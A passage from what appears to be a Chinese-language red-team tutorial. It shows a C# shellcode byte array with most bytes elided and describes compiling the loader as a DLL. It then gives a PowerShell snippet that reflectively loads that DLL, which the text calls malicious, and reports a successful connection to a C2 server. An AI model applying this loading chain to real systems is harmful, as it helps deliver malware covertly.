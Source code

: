 ```plain
// 存放 shellcode
byte[] buf1 = new byte[276] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
    ......
    0x63,0x2e,0x65,0x78,0x65,0x00
};
```

接着把主函数改造成一个外部可以调用的函数，把 C# 的 shellcode loader 编成类库：

[![](assets/1710900063-03c5b151a8484dc30928da788fda2268.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301230845-9917a1c6-d7dd-1.png)

接着使用下面的 powershell 脚本反射加载恶意 dll：

```plain
[void][System.Reflection.Assembly]::UnsafeLoadFrom("C:\Users\xxx\Desktop\SysCall_ShellcodeLoad.dll")
[SysCall_ShellcodeLoad.Loader]::Execute()
```

可以看到成功上线到 C2 服务器：

[![](assets/1710900063-5e3e80cb6703c51a929f44734a6571de.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301230913-a9f3a8f0-d7dd-1.png)
